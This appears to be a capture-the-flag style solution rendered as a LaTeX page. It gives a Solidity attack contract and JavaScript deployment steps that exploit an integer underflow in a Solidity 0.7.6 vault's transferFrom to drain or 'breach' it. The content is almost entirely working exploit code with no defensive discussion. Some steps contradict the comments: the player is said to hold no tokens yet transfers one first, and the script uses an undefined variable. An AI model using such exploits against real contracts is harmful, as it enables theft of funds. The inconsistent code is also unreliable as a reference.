 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

interface IVault09 {
    function transferFrom(address from, address to, uint256 amount) external;
}

contract Vault09Attack {
    // Reference to the vulnerable vault contract
    IVault09 public vault;
    // Address of the player who deployed this contract
    address immutable playerAddress;
    
    constructor(address _vaultAddress) {
        vault = IVault09(_vaultAddress);
        playerAddress = msg.sender;
    }
    
    /**
     * @notice Performs the attack by triggering an underflow in the vault contract
     * @dev This exploit works because Solidity 0.7.6 doesn't have default overflow/underflow protection
     */
    function attack() external {      
        // Transfer 1 token from player that has 0 tokens 
        // The player amount will underflow and become 2**256 - 1
        vault.transferFrom(playerAddress, address(this), 1);
    }
}
\end{lstlisting}
\end{minipage}

\noindent
Complete the attack with the following JavaScript code:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy the attacker contract from the player's account.
attackVault = await ethers.deployContract("Vault09Attack", [vault.target], player);
await attackVault.waitForDeployment();

console.log("Exploit contract deployed at:", attackVault.target);

// Player approves the exploit contract to spend any 2 tokens
await vault.connect(player).approve(attackVault.target, 2);

// Player transfers 1 token to the attack contract
await vault.connect(player).transferFrom(playerAddress, attackVault.target, 1);

// Execute the attack
const tx = await attackVault.attack();
await tx.wait();

// Break the vault
await vault.connect(player).breachVault();
\end{verbatim}
\end{minipage}
\end{document}
